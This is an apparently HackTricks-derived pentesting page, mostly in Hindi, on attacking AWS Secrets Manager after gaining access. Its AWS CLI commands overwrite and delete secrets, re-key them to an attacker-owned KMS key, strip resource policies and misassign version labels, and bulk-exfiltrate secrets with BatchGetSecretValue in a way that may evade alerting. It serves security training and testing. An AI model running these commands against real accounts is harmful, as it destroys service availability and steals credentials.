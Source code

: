 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

अधिक जानकारी के लिए देखें:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

**secrets स्वयं संवेदनशील जानकारी हैं**, [privesc पेज देखें](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) ताकि इन्हें पढ़ना कैसे है यह सीख सकें।

### DoS Change Secret Value

secret का value बदलकर आप उन सभी सिस्टम्स को **DoS** कर सकते हैं जो उस value पर निर्भर करते हैं।

> [!WARNING]
> ध्यान दें कि पिछले मान भी संग्रहीत होते हैं, इसलिए पहले के मान पर वापस जाना आसान है।
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

यदि हमलावर के पास secretsmanager:UpdateSecret permission है, तो वे secret को ऐसे KMS key के उपयोग के लिए कॉन्फ़िगर कर सकते हैं जो हमलावर के स्वामित्व में हो। वह key प्रारंभ में इस तरह सेट की जाती है कि कोई भी उसे एक्सेस और उपयोग कर सके, इसलिए नए key के साथ secret को अपडेट करना संभव होता है। अगर वह key पहुँच योग्य न होती, तो secret को अपडेट नहीं किया जा सकता था।

secret के लिए key बदलने के बाद, हमलावर अपनी key की configuration बदल देता है ताकि केवल वही उसे एक्सेस कर सके। इस तरह, secret के बाद के संस्करण नई key से एन्क्रिप्ट होंगे, और चूँकि उन तक पहुँच नहीं होगी, secret को पुनः प्राप्त करने की क्षमता खो जाएगी।

यह ध्यान रखना महत्वपूर्ण है कि यह पहुँच न होना केवल बाद के संस्करणों में ही होगा, जब secret की सामग्री बदल जाएगी, क्योंकि वर्तमान संस्करण अभी भी मूल KMS key से एन्क्रिप्ट है।
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

किसी secret को delete करने के लिए न्यूनतम दिनों की संख्या 7 है
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

यह संभव है कि आप किसी secret को पुनर्स्थापित कर सकें, जो उन secrets को बहाल करने की अनुमति देता है जिन्हें deletion के लिए शेड्यूल किया गया है, क्योंकि secrets के लिए न्यूनतम deletion अवधि 7 दिन और अधिकतम 30 दिन है। secretsmanager:GetSecretValue permission के साथ मिलकर, इससे उनके contents प्राप्त करना संभव हो जाता है।

डिलीट होने की प्रक्रिया में मौजूद किसी secret को recover करने के लिए, आप निम्नलिखित command का उपयोग कर सकते हैं:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

यह क्रिया उस resource policy को हटाने की अनुमति देती है जो नियंत्रित करती है कि कौन एक secret तक access कर सकता है। यदि resource policy किसी विशेष उपयोगकर्ताओं के समूह को access की अनुमति देने के लिए कॉन्फ़िगर की गई थी, तो इसे हटाने से DoS हो सकता है।

resource policy को हटाने के लिए:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

एक secret की स्थिति का उपयोग secret के वर्शन को प्रबंधित करने के लिए किया जाता है। AWSCURRENT उस सक्रिय वर्शन को चिह्नित करता है जिसे applications उपयोग करती हैं, AWSPREVIOUS पिछले वर्शन को रखता है ताकि आवश्यक होने पर आप रोलबैक कर सकें, और AWSPENDING रोटेशन प्रक्रिया में नया वर्शन current बनाने से पहले उसे तैयार और सत्यापित करने के लिए उपयोग होता है।

Applications हमेशा AWSCURRENT वाले वर्शन को पढ़ती हैं। अगर कोई उस लेबल को गलत वर्शन पर ले जाता है, तो एप्लिकेशन अमान्य क्रेडेंशियल्स का उपयोग करेंगी और असफल हो सकती हैं।

AWSPREVIOUS स्वचालित रूप से उपयोग में नहीं आता। हालाँकि, यदि AWSCURRENT हटा दिया जाए या गलत तरीके से पुनः असाइन किया जाए, तो ऐसा लग सकता है कि सब कुछ फिर भी पिछले वर्शन के साथ चला जा रहा है।
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Secrets Manager BatchGetSecretValue API का दुरुपयोग करके एक ही request में 20 तक secrets प्राप्त करें। यह प्रत्येक secret के लिए GetSecretValue चलाने की तुलना में API-call की संख्या को काफी कम कर सकता है। यदि filters (tags/name) उपयोग किए जाते हैं, तो ListSecrets permission भी आवश्यक है। CloudTrail फिर भी batch में प्राप्त प्रत्येक secret के लिए एक GetSecretValue event रिकॉर्ड करता है।

Required permissions
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue for each target secret
- secretsmanager:ListSecrets if using --filters
- kms:Decrypt on the CMKs used by the secrets (if not using aws/secretsmanager)

> [!WARNING]
> ध्यान दें कि permission `secretsmanager:BatchGetSecretValue` अकेला secrets प्राप्त करने के लिए पर्याप्त नहीं है; आपको हर secret के लिए `secretsmanager:GetSecretValue` भी चाहिए जिसे आप प्राप्त करना चाहते हैं।

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate फ़िल्टर के जरिए (tag key/value or name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
आंशिक विफलताओं का प्रबंधन
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
प्रभाव
- तेज़ “smash-and-grab” के जरिए कम API कॉल्स में कई secrets को तेजी से हासिल करना, जो संभावित रूप से GetSecretValue की स्पाइक्स के लिए कॉन्फ़िगर किए गए अलर्टिंग को बायपास कर सकता है।
- CloudTrail logs में बैच द्वारा प्राप्त किए गए प्रत्येक secret के लिए अभी भी एक GetSecretValue इवेंट शामिल होता है।
{{#include ../../../../banners/hacktricks-training.md}}
